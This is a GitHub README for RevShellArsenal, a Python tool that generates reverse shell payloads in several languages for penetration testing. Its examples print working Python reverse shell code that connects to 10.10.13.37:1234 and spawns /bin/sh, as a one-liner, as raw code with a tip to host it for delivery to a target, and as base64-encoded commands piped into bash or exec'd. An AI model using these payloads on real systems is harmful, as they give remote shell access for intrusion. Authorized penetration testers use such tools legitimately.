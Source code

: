 # RevShellArsenal

___RevShellArsenal___ is a small tool I wrote to generate reverse shells in differents languages, based on widely known techniques (e.g.: pentestmonkey cheat sheet). 

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/RevShellArsenal/master/screenshots/01_demo-all.png">
</p>

## Usage
```
usage: rsg.py [-h] [--raw] [--encode]
              {all,shell,perl,python,php,groovy,cmd,powershell} lhost lport

RevShellArsenal - Reverse Shell Generator

positional arguments:
  {all,shell,perl,python,php,groovy,cmd,powershell}
                        Payload (choose 'all' to generate all payloads)
  lhost                 Local IP address
  lport                 Local port

optional arguments:
  -h, --help            show this help message and exit
  --raw                 Print raw payload instead of one-liner
  --encode              Encode raw payload and print command
```

## Examples

1. __One-liner__

Generate a __Pyhon__ Reverse Shell __one-liner__.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234
[SHELL][PYTHON][ONE-LINER]
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.37",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

2. __Raw code__

Generate a __Python__ Reverse Shell and print it as __raw code__. This is useful if you want to output the result to a script a file and then __host it on a web server__ to deliver it to the target.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234 --raw
[PYTHON][RAW]
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.13.37",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

3. __One-liner with encoded payload__

Generate a __Python__ Reverse Shell and print it as an __encoded command__. This is useful to __avoid special characters__.
```
user@host:~$ ./rsg.py python 10.10.13.37 1234 --encode
[SHELL][PYTHON][ENCODED]
bash -c "{echo,cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=}|{base64,-d}|{bash,-i}"

[PYTHON][ENCODED]
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zOwpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTsKcy5jb25uZWN0KCgiMTAuMTAuMTMuMzciLDEyMzQpKTsKb3MuZHVwMihzLmZpbGVubygpLDApOwpvcy5kdXAyKHMuZmlsZW5vKCksMSk7Cm9zLmR1cDIocy5maWxlbm8oKSwyKTsKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7'.decode('base64'))"
```

## Credits

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - The famous reverse shell cheat sheet from pentestmonkey.

[Nishang PowerShell Reverse Shells](https://github.com/samratashok/nishang/tree/master/Shells) - Great PowerShell scripts for Windows-based reverse shells.

[java.lang.Runtime.exec() Payload Workarounds](https://jthuraisamy.github.io/archives.html/runtime-exec-payloads.html) - A tool to _encode_ Bash, PowerShell, Perl and Python commands/scripts. Useful when special characters usage is limited. The link is broken but is still available in [Google cache](https://webcache.googleusercontent.com/search?q=cache:5AdcRIUec4sJ:https://jackson.thuraisamy.me/runtime-exec-payloads.html).
